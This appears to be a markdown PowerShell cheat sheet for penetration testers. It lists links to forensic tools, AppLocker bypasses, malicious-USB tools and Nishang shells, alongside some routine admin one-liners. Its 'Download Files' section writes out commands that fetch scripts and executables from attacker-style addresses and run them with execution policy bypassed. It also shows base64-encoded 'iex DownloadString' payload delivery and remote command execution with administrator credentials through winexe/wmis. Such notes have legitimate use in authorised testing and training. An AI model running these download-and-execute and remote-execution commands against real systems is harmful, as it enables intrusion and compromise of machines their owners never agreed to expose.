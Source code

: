     - Kansa - <https://github.com/davehull/Kansa>
    - Voyeur - <https://github.com/silverhack/voyeur/>
    - Using Virus Total API - <https://github.com/darkoperator/Posh-VirusTotal>
  - Investigating PowerShell attacks https://www.defcon.org/images/defcon-22/dc-22-presentations/Kazanciyan-Hastings/DEFCON-22-Ryan-Kazanciyan-Matt-Hastings-Investigating-Powershell-Attacks-UPDATED.pdf
- Bypass
  - Bypassing Applocker Policies - <http://www.sixdub.net/2014/12/02/inexorable-powershell-a-red-teamers-tale-of-overcoming-simple-applocker-policies/>
  - Allowing the execution of Powershell functionality without the use of Powershell.exe (.Net): <https://github.com/Veil-Framework/PowerTools/tree/master/PowerPick>
- Save output
    ```
    Get-Service | Export-CSV C:\Temp\AllServices.CSV –NoTypeInfo
    Get-User –Filter ‘Name –Like “*John”’ | Export-CSV C:\Temp\AllUsers.CSV –NoTypeInfo
    Get-ChildItem –Path C:\Windows\System32 | Export-CSV C:\Temp\AllFiles.CSV -NoTypeInfo
    ```
- Reboots: `Get-EventLog –Log System –Newest 100 | Where-Object {$_.EventID –eq ‘1074’} | FT MachineName, UserName, TimeGenerated -AutoSize`
- Search hotfix: `Get-HotFix –ID KB2877616`
- Backup Group Policy: `Backup-GPO –All –Path C:\Temp\AllGPO`
- Check if all DCs are Global Catalog Servers: `Get-ADDomainController –Filter * | Select Hostname, IsGlobalCatalog`
- Powershell with HID
  - <https://github.com/samratashok/Kautilya/>
  - <http://www.labofapenetrationtester.com/search/label/Kautilya>
  - <http://www.irongeek.com/i.php?page=security/plug-and-prey-malicious-usb-devices>
- TCP / UDP / WMI Shells: <https://github.com/samratashok/nishang/tree/master/Shells>

## Download Files

```powershell
powershell wget "http://example.com/abc.txt" -outfile "abc.txt"
```
```powershell
Invoke-WebRequest -Uri "http://192.168.0.17/PS_TCP4.ps1" -OutFile $fullpath;
```
```bat
powershell -c "Invoke-WebRequest -Uri http://10.10.15.150/41020.exe -OutFile C:\Users\kostas\Desktop\41020.exe"
```
```bat
echo $webclient = New-Object System.Net.WebClient >wget.ps1
echo $url = "http://10.10.10.10/example.exe" >>wget.ps1
echo $file = "example.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInterative -NoProfile -File wget.ps1
```

- Base64 encoded payload delivery
    ```bat
    echo "iex (New-Object Net.WebClient).DownloadString('http://172.16.67.128:80/6WcepYO')" | iconv --to-code UTF-16LE | base64 -w 0
    ```
    ```bat
    kaliwmis-32 -U administrator%badpassword //10.10.10.10 "cmd.exe /c  powershell.exe -nop -enc <base64-value>"
    ```
## Execution Policy

